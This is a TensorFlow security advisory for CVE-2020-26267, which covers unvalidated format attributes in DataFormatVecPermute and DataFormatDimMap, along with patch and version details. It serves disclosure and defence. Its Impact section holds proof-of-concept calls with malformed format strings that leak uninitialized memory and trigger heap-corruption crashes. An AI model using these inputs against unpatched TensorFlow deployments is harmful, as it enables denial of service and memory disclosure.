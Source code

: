## TFSA-2020-030: Lack of validation in data format attributes

### CVE Number
CVE-2020-26267

### Impact
The `tf.raw_ops.DataFormatVecPermute` API does not validate the `src_format` and
`dst_format` attributes. [The
code](https://github.com/galeone/tensorflow/blob/304b96815324e6a73d046df10df6626d63ac12ad/tensorflow/core/kernels/data_format_ops.cc)
assumes that these two arguments define a permutation of `NHWC`.

However, these assumptions are not checked and this can result in uninitialized
memory accesses, read outside of bounds and even crashes.

```python
>>> import tensorflow as tf
>>> tf.raw_ops.DataFormatVecPermute(x=[1,4], src_format='1234', dst_format='1234')
<tf.Tensor: shape=(2,), dtype=int32, numpy=array([4, 757100143], dtype=int32)>
...
>>> tf.raw_ops.DataFormatVecPermute(x=[1,4], src_format='HHHH', dst_format='WWWW')
<tf.Tensor: shape=(2,), dtype=int32, numpy=array([4, 32701], dtype=int32)>
...
>>> tf.raw_ops.DataFormatVecPermute(x=[1,4], src_format='H', dst_format='W')
<tf.Tensor: shape=(2,), dtype=int32, numpy=array([4, 32701], dtype=int32)>
>>> tf.raw_ops.DataFormatVecPermute(x=[1,2,3,4], 
                                    src_format='1234', dst_format='1253')
<tf.Tensor: shape=(4,), dtype=int32, numpy=array([4, 2, 939037184, 3], dtype=int32)>
...
>>> tf.raw_ops.DataFormatVecPermute(x=[1,2,3,4],
                                    src_format='1234', dst_format='1223')
<tf.Tensor: shape=(4,), dtype=int32, numpy=array([4, 32701, 2, 3], dtype=int32)>
...
>>> tf.raw_ops.DataFormatVecPermute(x=[1,2,3,4],
                                    src_format='1224', dst_format='1423')
<tf.Tensor: shape=(4,), dtype=int32, numpy=array([1, 4, 3, 32701], dtype=int32)>
...
>>> tf.raw_ops.DataFormatVecPermute(x=[1,2,3,4], src_format='1234', dst_format='432')
<tf.Tensor: shape=(4,), dtype=int32, numpy=array([4, 3, 2, 32701], dtype=int32)>
...
>>> tf.raw_ops.DataFormatVecPermute(x=[1,2,3,4],
                                    src_format='12345678', dst_format='87654321')
munmap_chunk(): invalid pointer
Aborted
...
>>> tf.raw_ops.DataFormatVecPermute(x=[[1,5],[2,6],[3,7],[4,8]],           
                                    src_format='12345678', dst_format='87654321')
<tf.Tensor: shape=(4, 2), dtype=int32, numpy=
array([[71364624,        0],
       [71365824,        0],
       [     560,        0],
       [      48,        0]], dtype=int32)>
...
>>> tf.raw_ops.DataFormatVecPermute(x=[[1,5],[2,6],[3,7],[4,8]], 
                                    src_format='12345678', dst_format='87654321')
free(): invalid next size (fast)
Aborted
```

A similar issue occurs in `tf.raw_ops.DataFormatDimMap`, for the same reasons:

```python
>>> tf.raw_ops.DataFormatDimMap(x=[[1,5],[2,6],[3,7],[4,8]], src_format='1234',
>>> dst_format='8765')
<tf.Tensor: shape=(4, 2), dtype=int32, numpy=
array([[1954047348, 1954047348],
       [1852793646, 1852793646],
       [1954047348, 1954047348],
       [1852793632, 1852793632]], dtype=int32)>
```

### Patches

We have patched the issue in GitHub commit
[ebc70b7a592420d3d2f359e4b1694c236b82c7ae](https://github.com/galeone/tensorflow/commit/ebc70b7a592420d3d2f359e4b1694c236b82c7ae)
and will release TensorFlow 2.4.0 containing the patch. TensorFlow nightly
packages after this commit will also have the issue resolved.

Since this issue also impacts TF versions before 2.4, we will patch all releases
between 1.15 and 2.3 inclusive.

### For more information
Please consult [our security
guide](https://github.com/galeone/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by members of the Aivul Team from Qihoo
360.

